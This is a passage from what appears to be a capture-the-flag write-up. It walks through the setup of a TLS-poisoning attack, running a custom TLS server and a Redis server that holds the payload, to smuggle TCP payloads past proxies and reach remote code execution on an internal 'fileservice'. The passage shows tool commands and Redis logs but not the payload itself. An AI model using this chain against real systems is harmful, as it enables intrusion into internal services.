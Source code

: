 This technique allows us to **smuggle raw TCP payloads across boundaries**, bypassing proxies or firewalls, and ultimately achieve **remote code execution** on the internal `fileservice`.

---

Using this [tool](https://github.com/jmdx/TLS-poison) to run the TLS server.  

```json
└─$ target/debug/custom-tls -p 8443 --verbose --certs ../../rustls/test-ca/rsa/end.fullchain --key ../../rustls/test-ca/rsa/end.rsa http
[2025-06-02T09:25:01Z TRACE mio::poll] registering with poller
```

Now we need to know where we will put our malicious payload. If we check the source code of the tool, we will see that it takes the payload from a REDIS server that stores the payload in a variable called "payload". So we need to insert it.  

```json
└─$ redis-server
1260:C 02 Jun 2025 12:26:50.948 # oO0OoO0OoO0Oo Redis is starting oO0OoO0OoO0Oo
1260:C 02 Jun 2025 12:26:50.949 # Redis version=7.0.15, bits=64, commit=00000000, modified=0, pid=1260, just started
1260:C 02 Jun 2025 12:26:50.949 # Warning: no config file specified, using the default config. In order to specify a config file use redis-server /path/to/redis.conf
1260:M 02 Jun 2025 12:26:50.949 * Increased maximum number of open files to 10032 (it was originally set to 1024).
1260:M 02 Jun 2025 12:26:50.949 * monotonic clock: POSIX clock_gettime
                _._
           _.-``__ ''-._
      _.-``    `.  `_.  ''-._           Redis 7.0.15 (00000000/0) 64 bit
  .-`` .-```.  ```\/    _.,_ ''-._
 (    '      ,       .-`  | `,    )     Running in standalone mode
 |`-._`-...-` __...-.``-._|'` _.-'|     Port: 6379
 |    `-._   `._    /     _.-'    |     PID: 1260
  `-._    `-._  `-./  _.-'    _.-'
 |`-._`-._    `-.__.-'    _.-'_.-'|
 |    `-._`-._        _.-'_.-'    |           https://redis.io
  `-._    `-._`-.__.-'_.-'    _.-'
 |`-._`-._    `-.__.-'    _.-'_.-'|
 |    `-._`-._        _.-'_.-'    |
  `-._    `-._`-.__.-'_.-'    _.-'
      `-._    `-.__.-'    _.-'
          `-._        _.-'
              `-.__.-'

1260:M 02 Jun 2025 12:26:50.949 # Server initialized
1260:M 02 Jun 2025 12:26:50.949 # WARNING Memory overcommit must be enabled! Without it, a background save or replication may fail under low memory condition. Being disabled, it can can also cause failures without low memory condition, see https://github.com/jemalloc/jemalloc/issues/1328. To fix this issue add 'vm.overcommit_memory = 1' to /etc/sysctl.conf and then reboot or run the command 'sysctl vm.overcommit_memory=1' for this to take effect.
1260:M 02 Jun 2025 12:26:50.957 * Loading RDB produced by version 7.0.15
1260:M 02 Jun 2025 12:26:50.957 * RDB age 2 seconds
1260:M 02 Jun 2025 12:26:50.957 * RDB memory usage when created 0.84 Mb
1260:M 02 Jun 2025 12:26:50.957 * Done loading RDB, keys loaded: 0, keys expired: 0.
1260:M 02 Jun 2025 12:26:50.958 * DB loaded from disk: 0.007 seconds
1260:M 02 Jun 2025 12:26:50.958 * Ready to accept connections

```
